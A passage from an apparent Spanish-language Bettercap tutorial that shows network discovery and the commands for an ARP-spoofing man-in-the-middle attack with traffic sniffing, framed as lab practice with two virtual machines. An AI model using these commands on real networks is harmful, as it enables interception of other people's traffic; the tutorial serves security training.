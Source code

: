 ```bash
net.probe on
```

Esto hará que Bettercap busque dispositivos conectados a tu red.

Luego, para ver los dispositivos:

```bash
net.show
```

---

### 🧬 Realizar un MITM (solo en entorno de prueba)

1. Selecciona una víctima:

```bash
set arp.spoof.targets 192.168.0.105
```

2. Activa el ataque:

```bash
arp.spoof on
net.sniff on
```

Ahora estarás en el medio de la comunicación entre la víctima y el router.

---

### 📌 Tips adicionales

| Comando   | Acción                            |
| --------- | --------------------------------- |
| `help`    | Ver lista de módulos              |
| `modules` | Ver todos los módulos disponibles |
| `quit`    | Salir de Bettercap                |
| `clear`   | Limpiar consola                   |

---

### 🧪 Laboratorio recomendado (opcional)

Puedes hacer tus pruebas con 2 máquinas virtuales:

- Máquina 1: Kali Linux con Bettercap.
- Máquina 2: Windows o Ubuntu como víctima.
- Conéctalas a la misma red (modo puente o red interna en VirtualBox).

---

### ✅ Conclusión
